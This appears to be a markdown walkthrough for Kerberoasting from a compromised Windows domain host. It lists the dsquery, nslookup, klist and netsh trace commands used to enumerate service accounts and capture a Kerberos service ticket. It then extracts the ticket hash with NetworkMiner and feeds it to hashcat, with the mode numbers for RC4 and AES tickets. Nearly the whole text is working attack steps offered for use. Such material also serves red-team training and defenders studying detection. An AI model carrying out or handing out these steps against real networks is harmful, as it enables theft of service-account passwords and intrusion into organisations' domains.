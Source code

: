 Assumes you have (compromised) a Windows computer that can access the domain with user privileges and have local administrator privileges to run `netsh`.

**List all user accounts with SPNs under a specific OU**

`dsquery * "OU=Service Accounts,DC=my,DC=lab" -filter "(&(objectcategory=user) (servicePrincipalName=*))" -attr distinguishedName servicePrincipalName -limit 0 > C:\temp\spn_accounts.txt`

Look through the file `C:\temp\spn_accounts.txt` for an interesting account and note the `distinguishedName` and `servicePrincipalName`.<br />
(e.g.)<br />
```
distinguishedName:    CN=Admin Service,OU=Services Accounts,DC=my,DC=lab
servicePrincipalName: http/automation;http/automation.my.lab;
```
**Get the IP addresses of the Domain Controllers**

`nslookup -type=all _ldap._tcp.dc._msdcs.my.lab`

(e.g.)<br />
```
dc01.my.lab    internet address = 10.1.2.10
dc02.my.lab    internet address = 10.1.2.11
```

**Clear the Kerberos tickets on the host**

`klist purge`

**Start a packet capture using netsh from en elevated command prompt**

(filter the packet trace to just the DCs identified earlier)<br />
`netsh trace start scenario=NetConnection capture=yes persistent=no maxsize=512 filemode=circular overwrite=yes report=no correlation=no traceFile=c:\temp\capture.etl IPv4.Address=(10.1.2.10,10.1.2.11) Ethernet.Type=IPv4`<br />
wait for the command prompt to return.

**Get a kerberos TGS using the SPN**

`klist get http/automation.my.lab`

**Stop the packet capture from the elevated command prompt**

`netsh trace stop`<br />
wait for the command prompt to return.

**The remaining steps are performed off-host on an attacking Windows system**

(1) Copy `c:\temp\capture.etl` to the attack system.<br />
(2) Ensure the attack system has the following tools installed.<br />
    [etl2pcapng](https://github.com/microsoft/etl2pcapng)<br />
    [NetworkMiner >= 2.6](https://www.netresec.com)<br />
    [WireShark](https://www.wireshark.org/)<br />
(3) Convert the netsh file to pcapng format.<br />
    `etl2pcapng.exe capture.etl capture.pcapng`<br />
(4) Open the `capture.pcapng` file in WireShark and save as a classic pcap file `capture.pcap`.  Discard comments when saving if prompted to do so.<br />
(5) Open `capture.pcap` in NetworkMiner.  Under the "Credentials" tab right-click on the krb5tgs entry and select "Copy Password".  Save the text from the clipboard into a file called "tgs.txt".<br />
(6) The encryption type at the beginning of the string pasted into the "tgs.txt" file will tell you if the ticket was encrypted with RC4 or AES.<br />
(e.g)<br />
```
$krb5tgs$23$ = RC4     = hashcat mode 13100
$krb5tgs$17$ = AES-128 = hashcat mode 19600
$krb5tgs$18$ = AES-256 = hashcat mode 19700
```
(7) Feed the contents of "tgs.txt" into hashcat to attempt to crack the service account's plaintext password.
